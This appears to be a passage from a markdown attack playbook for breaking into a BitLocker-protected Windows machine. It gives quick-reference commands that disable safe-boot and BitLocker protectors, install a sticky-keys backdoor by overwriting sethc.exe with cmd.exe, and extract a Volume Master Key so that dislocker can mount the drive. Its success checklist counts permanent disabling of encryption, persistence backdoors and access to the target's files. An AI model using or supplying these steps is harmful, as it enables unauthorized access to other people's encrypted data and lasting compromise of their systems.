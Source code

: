 
## ⚡ **QUICK REFERENCE COMMANDS**

### **Essential PowerShell Commands**
```powershell
# Disable safe mode boot
cmd /c "bcdedit /deletevalue {current} safeboot"

# Disable BitLocker protection
cmd /c "manage-bde -protectors -disable C:"

# Install sticky keys backdoor
cmd /c "cd C:\Windows\System32 && copy sethc.exe sethc.exe.backup && copy cmd.exe sethc.exe"

# Check BitLocker status
cmd /c "manage-bde -status C:"

# Monitor decryption progress
manage-bde -status C:
```

### **Forensic Analysis Commands**
```bash
# Mount forensic image
sudo losetup -P /dev/loop[X] /path/to/forensic_image.dd

# Check partition structure
sudo fdisk -l /dev/loop[X]

# Convert VMK to binary
echo "[YOUR_VMK_HEX_STRING]" | xxd -r -p > /tmp/vmk_binary.key

# Test VMK with dislocker
sudo dislocker -v -K /tmp/vmk_binary.key /dev/loop[X]p[Y] /mnt/bitlocker
```

---

## 🎯 **SUCCESS CRITERIA**

### **Mission Accomplished When:**
- ✅ **Forensic Image**: Complete disk image captured
- ✅ **VMK Extracted**: Valid 32-byte Volume Master Key obtained
- ✅ **Administrator Access**: Full system privileges achieved
- ✅ **Target Data Access**: User files successfully accessed
- ✅ **BitLocker Defeated**: Encryption permanently disabled
- ✅ **Persistence**: Backdoor access methods installed
- ✅ **Documentation**: Professional evidence documented

### **Expected Timeline:**
- **Forensic Imaging**: 2-6 hours (depending on drive size)
- **CVE Exploitation**: 30-60 minutes
- **System Access**: 15-30 minutes
- **Configuration**: 15-30 minutes
- **Verification**: 30-60 minutes
- **Total**: 4-8 hours for complete engagement

---